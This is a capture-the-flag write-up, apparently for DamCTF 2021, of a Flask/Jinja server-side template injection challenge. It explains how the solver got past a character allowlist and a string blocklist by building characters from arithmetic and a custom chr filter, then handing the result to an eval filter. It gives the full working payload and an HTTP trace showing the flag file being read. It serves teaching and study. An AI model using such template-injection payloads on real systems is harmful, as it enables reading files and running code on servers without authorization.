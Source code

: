 # Secure Translation - flask/jinja SSTI Challange
*Overall fun and sweaty web challenge that took more time then anticipated*  
**Difficulty: 7/10**
## RECON
The web server was running a flask/jinja application that had the following routes:
```
@server.route("/") => app.py 
@server.route("/<path>") => app.py if the resource is nonexistent
@server.route("/secure_translate/") => print(f"Payload parsed: {payload}") - payload parameter is user controlled input. Vulnerable to SSTI.
```
- The Docker file showed that all the source files are located in the web root, so we could access them by simply navigating to - http://webapp/source.py
  
  
The application had a list of characters that are allowed to use for a payload:
```
allowList = ["b", "c", "d", "e", "h", "l", "o", "r", "u", "1", "4", "6", "*", "(", ")", "-", "+", "'", "|", "{", "}"]
```
Using a character that is not in this list would reutrn:
```
Failed Allowlist Check: <all the blacklisted characters that you used>
```
The application also had custom jinja filters:
```
app.jinja_env.filters["u"] = up --> uppercase
app.jinja_env.filters["l"] = low --> lowercase
app.jinja_env.filters["b64d"] = b64dec  --> base64 decode
app.jinja_env.filters["order"] = sortr  --> sort string
app.jinja_env.filters["ch"] = ch  --> return character from character code
app.jinja_env.filters["e"] = e  --> eval
```
Reference: https://jinja.palletsprojects.com/en/3.0.x/templates/#filters
## EXPLOITATION
  
1. **Expanding our dictionary**
  
Using only the whitelisted characters is not enough to build a high severity payload, so we had to expand our alphabet by using basic arithmetics and the jinja filters for string transformation
  
The 'ch' filter uses python's chr(int) function to return a character based on the ascii number.  
```
>>> print(chr(111-14))
>>> a
.
.
.
GET http://webapp/secure_translate/payload={{(111-14)|ch}}
<html>
a
</html>
```
*Note that we can only use the numbers 1, 4, 6 from the allowlist*  

Now that we can use all the characters we can generate more complex payloads and pass them to eval
  
  
2. **More blacklisted strings**  
  
The filters.py file adds another layer of filtration by blacklisting some strings that are passed to eval:
```
forbidlist = [" ", "=", ";", "\n", ".globals", "exec"]
```
In addtion the first 4 characters cannot be "open" and "eval":
```
if x[0:4] == "open" or x[0:4] == "eval":
  return "Not That Easy ;)"
```
Honorable mention:  
- The input has a limit of 161 characters, otherwise it's rejected by the application.

3. **Final Exploit**  
  
Payload: 
```
\ropen('flag').read()
```
more commonly known as  
```
{{((6%2b6%2b1)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}}
```
  
Trace:
```
GET /secure_translate/?payload={{((6%2b6%2b1)|ch%2b'o'%2b(111%2b1)|ch%2b'e'%2b(111-1)|ch%2b'("'%2b(46%2b1)|ch%2b(61%2b41)|ch%2b'l'%2b(111-14)|ch%2b(61%2b41%2b1)|ch%2b'"'%2b')'%2b46|ch%2b're'%2b(111-14)|ch%2b'd()')|e}} HTTP/2
Host: super-secure-translation-implementation.chals.damctf.xyz
User-Agent: MozSSilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
.
.
.
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Date: Mon, 08 Nov 2021 00:55:30 GMT
Server: gunicorn
Content-Length: 744

<!doctype html>
<stripped>
    <code>
      <p>dam{p4infu1_all0wl1st_w3ll_don3}
</p><a href="/">Take Me Home</a>
    </code>
  </stripped>
</html>
```
